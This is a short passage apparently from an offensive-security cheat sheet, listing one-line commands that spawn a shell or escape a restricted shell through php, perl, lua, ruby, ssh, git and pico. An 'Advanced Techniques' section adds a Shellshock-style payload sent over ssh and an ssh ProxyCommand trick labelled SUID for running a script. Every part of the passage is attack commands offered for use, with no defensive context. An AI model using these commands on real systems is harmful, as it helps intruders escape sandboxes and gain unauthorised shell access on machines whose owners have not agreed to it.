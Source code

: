 From ``php``:

```
# php -a then exec("sh -i");
```

From ``perl``:

```
# perl -e 'exec "/bin/sh";'
```

From ``lua``:

```
# os.execute('/bin/sh')
```

From ``ruby``:

```
# exec "/bin/sh"
```

**Advanced Techniques:**

From ``ssh``:

```
# ssh <USER>@<RHOST> -t "/bin/sh"

or

# ssh <USER>@<RHOST> -t "/bin/bash"

or

# ssh <USER>@<RHOST> -t "bash --noprofile"

or

# ssh <USER>@<RHOST> -t "() { :; }; /bin/bash" 

or

# ssh -o ProxyCommand="sh -c /tmp/<FILE>.sh"127.0.0.1     <- SUID
```

From ``git``:

```
# git help status
# !/bin/bash
```

From ``pico``:

```
# pico -s "/bin/bash"
# /bin/bash <CTRL+T>
```
